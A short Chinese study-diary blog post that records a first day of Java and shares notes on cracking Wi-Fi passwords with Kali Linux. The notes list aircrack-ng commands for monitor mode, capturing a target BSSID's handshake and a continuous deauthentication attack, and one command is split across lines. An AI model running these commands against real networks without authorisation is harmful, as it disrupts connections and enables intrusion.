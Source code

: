 ```yaml
---  
layout: post  
title: "今天是第64天"  
date: 2019-10-16  
tags: XDH    
---  
```


### 今日任务
java基础部分
### 每日新词
kali keli
### 当天小结
正式学习Java的第一天,加油!
### 每日分享

keli系统-集成一些工具

通过获取传输握手包数据,采用密码字典实现,破解WIFI密码

```
查看网络配置
ifconfig
工具
airmon-ng start wlan0
查看网卡
iwconfig
airodump-ng -c 1 --bssid 48:0E:EC:7C:32:00 -w ~/a/ wlan0
aireplay-ng -0 0 -a 48:0E:EC:7C:32:00 wlan
0
```